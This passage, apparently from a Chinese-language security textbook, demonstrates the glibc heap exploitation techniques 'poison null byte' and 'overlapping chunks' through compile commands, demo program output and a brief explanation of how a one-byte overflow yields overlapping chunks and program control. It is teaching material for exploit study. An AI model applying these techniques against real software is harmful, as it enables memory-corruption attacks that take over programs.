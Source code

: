 编译，并运行得到结果：
\begin{verbatim}
$ gcc -g poison_null_byte.c 
$ ./a.out 
We allocate 0x10 bytes for 'a': 0xabb010
'real' size of 'a': 0x18
b: 0xabb030
c: 0xabb140
b.size: 0x111 ((0x100 + 0x10) | prev_in_use)

After free(b), c.prev_size: 0x110
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100

Pass the check: chunksize(P) == 0x100 == 0x100 == prev_size (next_chunk(P))
We malloc 'b1': 0xabb030
c.prev_size: 0x110
fake c.prev_size: 0x70

We malloc 'b2', our 'victim' chunk: 0xabb0c0
Now we free 'b1' and 'c', this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').
Finally, we allocate 'd', overlapping 'b2': 0xabb030

b2 content:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
New b2 content:BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
\end{verbatim}

此技术的利用条件是某个由\verb+malloc +分配的内存区域存在单字节溢出，通过溢出下一个\verb+chunk +的\verb+size +字段，攻击者能够在堆中创造出重叠的内存块，从而达到改写其他数据的目的。再结合其他的利用方式，同样能够获得程序的控制权。

\subsection{overlapping\_chunks}

编译，运行得到结果：
\begin{verbatim}
$ gcc -g overlapping_chunks.c
$ ./a.out 
Now we allocate 3 chunks on the heap
p1=0x1e2b010
p2=0x1e2b0a0
p3=0x1e2b130

Freeing the chunk p2
Emulating an overflow that can overwrite the size of the chunk p2.

p4: 0x1e2b0a0 ~ 0x1e2b8e0
p3: 0x1e2b130 ~ 0x1e2b530

If we memset(p4, 'B', 0xd0), we have:
p4 = BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAa�
p3 = BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa�

If we memset(p3, 'C', 0x50), we have:
p4 = BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCC
CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAa�
p3 = CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
CAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa�
\end{verbatim}

